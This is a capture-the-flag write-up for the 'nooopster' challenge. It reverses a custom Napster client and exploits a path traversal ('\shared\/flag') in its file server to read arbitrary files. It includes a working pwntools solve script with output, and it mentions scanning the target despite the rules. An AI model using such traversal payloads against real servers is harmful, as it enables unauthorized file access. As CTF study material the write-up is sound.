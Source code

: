 # nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```

![c.png](c.png)

Ok, let's check out his files
```
/browse nooopster
```

![f.png](f.png)

We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`, which is an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn the client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on an port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what it was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function. The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.5)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
